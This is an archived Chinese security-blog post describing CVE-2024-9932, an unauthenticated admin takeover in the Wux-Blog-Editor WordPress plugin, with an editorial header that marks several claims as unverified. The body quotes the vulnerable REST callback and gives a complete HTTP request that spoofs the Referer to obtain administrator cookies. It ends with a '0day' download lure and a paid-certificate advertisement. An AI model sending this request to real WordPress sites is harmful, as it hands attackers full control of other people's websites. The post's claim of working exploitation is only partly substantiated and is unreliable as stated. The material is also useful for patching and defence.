

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：affected version omitted; public REST route; unshown wuxbt_forceToken behavior matters; administrator exists

- **证据待核（1）**：callback第一行调用wuxbt_forceToken但未给定义，仅凭后续Referer检查无法完整证明只有伪造Referer就够。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **实验改动边界（2）**：$received_key未使用是重要证据，仍需说明token强制函数影响。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **来源与引用处置（3）**：无受影响/修复版本和原始公告；正文0day广告标签不应成为漏洞状态。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **凭据与会话边界（4）**：代码原样保留主要链，响应Cookie仅图片，缺可核对的响应文本。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  WordPress Wux-Blog-Editor 插件存在前台越权漏洞(直接成为管理员) CVE-2024-9932   
原创 Mstir  星悦安全   2024-12-31 04:25  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
  
  
  
## 0x00 前言  
  
##   
  
**Wux-Blog-Editor 是在一个地方编辑来自所有不同WordPress网站的帖子和页面的插件**  
## 0x01 漏洞分析&复现  
  
##   
  
**位于 /wp-content/plugins/wux-blog-editor/External_Post_Editor.php 中的 wuxbt_externalAutologin 方法存在前台越权漏洞，只需要传入Referer 为 https://blog.tool.wux.nl/ 即可直接登录管理员账号.**  
  
****  
```
//AUTOLOGIN TO WORDPRESS
function wuxbt_externalAutologin( $request ) {
    wuxbt_forceToken();


    if($_SERVER['HTTP_REFERER'] != 'https://blog.tool.wux.nl/'){
        
        if($_SERVER['HTTP_REFERER'] == "https://$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]"){
            
        }
        else{
            echo "Error code 444";
            exit;
        }
    }
    

    $blogusers = get_users( );
    // Array of WP_User objects.
    foreach ( $blogusers as $user ) {
        if ( in_array( 'administrator', (array) $user->roles ) ) {
            

            // Check if user is already logged in, redirect to account if true
            if (!is_user_logged_in()) {
                // Sanitize the received key to prevent SQL Injections
                $received_key = sanitize_text_field($_GET['token']);
                
                // Get the user id then set the login cookies to the browser
                wp_set_auth_cookie($user->ID);
                
                
                foreach($_COOKIE as $name => $value) {
                    // Find the cookie with prefix starting with "wordpress_logged_in_"
                    if(substr($name, 0, strlen('wordpress_logged_in_')) == 'wordpress_logged_in_') {
                        // Redirect to account page if the login cookie is already set.
                        echo 'Heeft gewerkt, ga naar /wp-admin';
                        wp_redirect( admin_url() );
                        exit;
                        
                    }
                }
                header("Refresh:1");
                echo 'Redirecting...';
                echo 'Laad deze oneindig? Ga dan naar /wp-admin';
            
            } else {
                wp_redirect( admin_url() );
                exit;
            }
        }else{
            // echo "Error code: 5U70";
        }
    }
}

add_action('rest_api_init', function () {
    register_rest_route('external-post-editor/v2', '/autologin', array(
        'methods' => 'GET',
        'callback' => 'wuxbt_externalAutologin',
        'permission_callback' => '__return_true',
    ));
});
```  
  
  
**Payload:**  
  
****  
```
GET /wp-json/external-post-editor/v2/autologin HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Referer: https://blog.tool.wux.nl/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: su_webp=1
Connection: close
```  
  
  
  
  
**可以看到直接添加了管理员的Cookie进去，然后直接访问 /wp-admin 即可进入后台**  
## 0x02 胶水下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**下载地址关注公众号发送 241231 获取!**  
  
****  
  
****  
**进公开群，代码审计，众测，驻场，渗透测试，攻防演练，CNVD证书全网最低价+VX: Lonely3944**  
  
****  
  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
